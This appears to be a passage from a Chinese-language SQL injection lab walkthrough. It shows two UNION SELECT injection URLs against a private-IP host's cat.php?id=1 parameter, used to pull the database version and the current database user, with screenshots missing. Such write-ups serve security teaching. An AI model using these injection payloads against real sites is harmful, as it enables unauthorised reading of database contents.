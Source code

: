 ![image](9.jpg)

#### 检索信息

a、数据库版本信息：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1, @@version,3,4```

显示如下：

![image](10.jpg)

b、当前用户信息：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1, current_user(),3,4```

显示如下：

